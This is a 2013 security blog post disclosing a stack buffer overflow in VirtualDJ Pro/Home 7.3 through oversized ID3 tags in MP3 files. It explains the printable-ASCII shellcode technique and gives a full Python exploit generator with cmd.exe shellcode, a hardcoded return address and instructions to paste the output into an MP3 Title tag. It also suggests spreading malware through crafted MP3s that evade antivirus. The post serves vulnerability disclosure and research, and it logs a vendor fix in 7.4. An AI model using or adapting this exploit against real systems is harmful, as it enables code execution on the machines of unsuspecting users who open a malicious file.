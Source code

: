 ```yaml
---
layout: post
date: 2013-03-30 00:00:00 UTC
title: VirtualDJ Pro/Home 7.3: Buffer Overflow
---
```


I have found a buffer overflow vulnerability in [VirtualDJ Pro 7.3 and VirtualDJ Home 7.3](http://www.virtualdj.com/) and possibly previous versions of this software. When the user enters a folder, VirtualDJ tries to retrieve all information from the ID3 tags of MP3 files inside such as _Title_, _Album_, and _Artist_ and stores it in a buffer. After that, a second buffer of length 4096 is allocated in the stack and only the characters `[A-Z]` from the first buffer will be copied to it. According to the ID3 v2.x standard, these tags can have a length greater than 4096; therefore it is possible to produce a buffer overflow in this second buffer. At the time when the buffer overflow happens and the program reaches the `retn` instruction, the `edi` register points to the first buffer.

We cannot assign the `eip` the address of the first buffer directly since it contains characters which are not in range A-Z. However if we take into account the previous information, we can do this indirectly: We write in the bytes 4100:4104 of the title `"FSFD"`. After the buffer overflows occurs we get `eip == 0×44465346 == "FSFD"`. At this address (inside _urlmon.dll_) we find a `call edi` instruction and so the bytes in the first buffer will be executed. Now we face another problem. VirtualDJ has inserted a 0xC3 byte (`retn`) before each non-printable ASCII character in the first buffer and we cannot execute the shellcode directly. We can solve this by pushing into the stack the bytes of the shellcode using only printable ASCII characters. Let me explain:

Instead of pushing the bytes 0xB8, 0xFF, 0xEF, 0xFF (FFEFFFB8h) directly, we can do exactly the same using only printable ASCII characters by using the string `"%@@@@%????-R@D@-R@D@-R@D@-R?C?P"`:

```asm
and   eax, 40404040h   ; 25 40 40 40 40  == "%@@@@"
and   eax, 3F3F3F3Fh   ; 25 3F 3F 3F 3F  == "%????"  <– eax == 0
sub   eax, 40444052h   ; 2D 40 44 40 52  == "-R@D@"
sub   eax, 40444052h   ; 2D 40 44 40 52  == "-R@D@"
sub   eax, 40444052h   ; 2D 40 44 40 52  == "-R@D@"
sub   eax, 3F433F52h   ; 2D 3F 43 3F 52  == "-R?C?"  <– eax == 0xFFEFFFB8
push  eax              ; 50              == "P"
```

Once all the bytes of the shellcode are pushed into the stack (in inverse order) we use `push esp` (0×54) and `retn` (0xC3) to run the shellcode. Obviously, it does not matter if VirtualDJ pushes another 0xC3 byte before this one.

This is a pretty serious vulnerability since VirtualDJ is considered the #1 software for mixing music with millions of downloads around the world. By exploiting this vulnerability it would be possible to spread quickly a malware just by uploading a malicious MP3 file in a popular site. Even worse, this file might not be a suspicious file for antivirus software. Note how the 4096 padding bytes could be replaced by something apparently harmless such as the real title of the MP3 file followed by a lot of spaces.

```python
#Exploit: VirtualDJ Pro/Home <=7.3 Buffer Overflow Vulnerability 
#By: Alexandro Sanchez Bach | functionmixer.blogspot.com 
#More info: http://www.youtube.com/watch?v=PJeaWqMJRm0
 
import string
 
def unicodeHex(c):
    c = hex(ord(c))[2:].upper()
    if len(c)==1: c = "0"+c
    return c+"00"
 
def movEAX(s):
    #Arrays 
    s = map(ord, list(s))
    inst = []
    target = [512, 512, 512, 512]
    carry  = [0,-2,-2,-2]
    for i in range(4):
        if s[i] < 0x10:
            target[i] = 256
            if i < 3:
                carry[i+1] = -1
    diff = [target[b] - s[b] for b in range(4)]
 
    #Gen instructions 
    for i in range(3):
        target = [target[b] - diff[b]/4 for b in range(4)]
        inst += [[diff[b]/4 for b in range(4)]]
    target = [target[b] - s[b] + carry[b] for b in range(4)]
    inst += [target]
     
    #Remove characters '[','\',']' 
    for b in range(4):
        if ord("[")  in [inst[i][b] for i in range(4)] or \
           ord("\\") in [inst[i][b] for i in range(4)] or \
           ord("]")  in [inst[i][b] for i in range(4)]:
            for i in range(4):
                inst[i][b] = inst[i][b] + 5*((-1)**(i))
     
    inst  = ["\x2D" + "".join(map(chr, i)) for i in inst]
    return "".join(inst)

#Shellcode: Run cmd.exe 
shellcode  = "\xB8\xFF\xEF\xFF\xFF\xF7\xD0\x2B\xE0\x55\x8B\xEC"
shellcode += "\x33\xFF\x57\x83\xEC\x04\xC6\x45\xF8\x63\xC6\x45"
shellcode += "\xF9\x6D\xC6\x45\xFA\x64\xC6\x45\xFB\x2E\xC6\x45"
shellcode += "\xFC\x65\xC6\x45\xFD\x78\xC6\x45\xFE\x65\x8D\x45"
shellcode += "\xF8\x50\xBB\xC7\x93\xBF\x77\xFF\xD3"
retAddress = "\xED\x1E\x94\x7C" # JMP ESP ntdll.dll WinXP SP2 
shellcode += retAddress
 
while len(shellcode) % 4 != 0:
    shellcode += '\x90'
exploit = ""
for i in range(0,len(shellcode),4)[::-1]:
    exploit += "\x25\x40\x40\x40\x40\x25\x3F\x3F\x3F\x3F"  #EAX = 0 
    exploit += movEAX(shellcode[i:i+4])  #EAX = shellcode[i:i+4] 
    exploit += "\x50"  #PUSH EAX 
exploit += '\x54\xC3' #PUSH ESP; RETN 
 
c = 0
for i in exploit:
    if i in string.ascii_letters:
        c += 1
exploit +=  "A" * (4100 - c)
exploit += "FSFD"
 
print exploit
#Paste the generated code in the tag 'Title' of the MP3 file.
```

You can see a demo of this proof of concept at: https://www.youtube.com/watch?v=PJeaWqMJRm0.

## Log

* __2012-11-29__: Bug discovered. VirtualDJ was emailed about this a few days later.
* __2013-03-20__: Bug fixed with the release of VirtualDJ Pro/Home 7.4.
* __2013-03-29__: Exploit published.
